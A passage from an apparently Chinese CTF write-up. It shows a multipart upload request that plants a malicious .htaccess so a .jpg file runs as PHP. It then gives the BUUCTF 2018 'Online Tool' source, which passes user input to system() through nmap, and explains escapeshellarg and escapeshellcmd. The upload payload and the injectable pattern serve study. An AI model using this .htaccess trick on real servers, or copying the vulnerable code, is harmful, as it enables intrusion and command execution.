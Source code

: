 ```http
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/jpeg

<FilesMatch "bme.jpg">
SetHandler application/x-httpd-php #匹配到的文件按照php解析
AddHandler php5-script .jpg #其他按照jpg解析
</FilesMatch>
------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="submit"

涓婁紶
------WebKitFormBoundaryzMAUFel4paiiSDAr--
```

## Online Tool

> BUUCTF 2018

### 题目

直接给了源码

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

题是代码执行，考察的是[`escapeshellarg`和`escapeshellcmd`](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)联合使用的问题

> `escapeshellarg` — 把字符串转码为可以在 shell 命令里使用的参数
>
> **功能** **：escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，shell 函数包含 exec(), system() 执行运算符(反引号)**

> `escapeshellcmd` — shell 元字符转义
>
> **功能：`escapeshellcmd()` 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 [`exec()`](http://php.net/manual/zh/function.exec.php) 或 [`system()`](http://php.net/manual/zh/function.system.php) 函数，或者 [`执行操作符`](http://php.net/manual/zh/language.operators.execution.php) 之前进行转义。**
>
> 反斜线（\）会在以下字符之前插入： *&#;`|\*?~<>^()[]{}$*, *\x0A* 和 *\xFF\*。 \*’* 和 *“* 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 *%* 和 *!* 字符都会被空格代替
